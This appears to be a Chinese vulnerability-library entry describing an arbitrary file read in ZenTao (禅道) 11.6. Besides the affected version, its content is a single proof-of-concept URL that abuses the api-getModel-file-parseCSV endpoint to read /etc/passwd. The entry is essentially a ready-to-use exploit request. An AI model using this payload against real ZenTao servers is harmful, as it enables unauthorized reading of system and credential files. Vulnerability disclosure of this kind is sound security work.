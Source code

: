 ```yaml
---
title: '禅道11.6任意文件读取'
date: Thu, 17 Sep 2020 01:38:25 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围

禅道 11.6

### 漏洞POC

```
http://127.0.0.1/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd 
```



![img](禅道11.6任意文件读取/2020090917060866.png)

